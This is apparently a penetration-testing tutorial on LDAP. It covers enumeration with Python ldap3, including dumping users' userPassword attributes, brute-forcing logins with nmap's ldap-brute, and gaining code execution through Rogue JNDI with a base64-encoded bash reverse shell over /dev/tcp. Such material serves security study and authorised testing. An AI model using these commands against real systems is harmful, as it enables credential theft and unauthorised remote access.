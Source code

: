 ```yaml
---
description: A primer into LDAP enumeration and exploitation
---
```


# LDAP Exploitation

## Enumeration

### Manual simple enumeration with ldap3

Manual LDAP Enumeration Attackers can perform manual LDAP enumeration using Python. Follow the steps given below to perform manual LDAP enumeration using Python.&#x20;

1. Using Nmap, check whether the target LDAP server is listening on the port `389` for LDAP and port `636` for secure LDAP.&#x20;
2. If the target server is listening on the specified ports, initiate the enumeration process by installing LDAP using the following command: pip3 install ldap3&#x20;
3. As shown in the code given below, create a server object (server), and specify the target IP address or hostname and port number. If the target server is listening on secure LDAP, specify `use_ssl = True`.&#x20;
4. Retrieve the Directory System Agent (DSA)–specific entry (DSE) naming contexts by specifying `get_info = ldap3.ALL`.&#x20;
5. Now, create a connection object, `connection`, and initiate a call to `bind()`.
6. If the connection is successful, True is displayed on the screen as follows:

```
>>> import ldap3
>>> server = ldap3.Server('Target IP Address', get_info = ldap3.ALL, port =389) 
>>> connection = ldap3.Connection(server) 
>>> connection.bind() 

True
```

7. Now, one can fetch information such as the domain name and naming context using the following script:

```
>>> server.info
```

8. After obtaining the naming context, retrieve all the directory objects using the script given below:

{% code overflow="wrap" %}
```
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*') 

True

>> connection.entries 
```
{% endcode %}

Now, use the following script to dump the entire LDAP:

{% code overflow="wrap" %}
```
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')


True 

>>> connection.entries
```
{% endcode %}

This `connection` object can also be used to write data. &#x20;





### Using nmap

Attackers use the `ldap-brute` NSE script to brute-force LDAP authentication. By default, it uses the built-in username and password lists.&#x20;

The `userdb` and `passdb` script arguments can be employed to use custom lists.

{% code overflow="wrap" %}
```
sudo nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=<DC_NAME>,dc=com"' <Target IP Address>
```
{% endcode %}

### Using ldapsearch

The `ldapsearch` is a shell-accessible interface for the `ldap_search_ext(3)` library call.&#x20;

The `ldapsearch` opens a connection to an LDAP server, binds it, and performs a search using the specified parameters.&#x20;



## Exploitation

### Using Rogue JNDI

Java Naming and Directory Interface is a Common interface to interact with Naming and Directory Services.&#x20;

To know more read [this](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf). &#x20;

#### Bash reverse shell using rogue jndi

Base 64 encoded reverse shell payload:

```
echo "bash -c bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1" | base64
```

Start a netcat listener on the PORT.

Use base 64 encoded payload for Rogue JNDI&#x20;

```
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ0IDA+JjEiCg==}|{base64,-d}|{bash,-i}" --hostname "10.129.56.33"
```





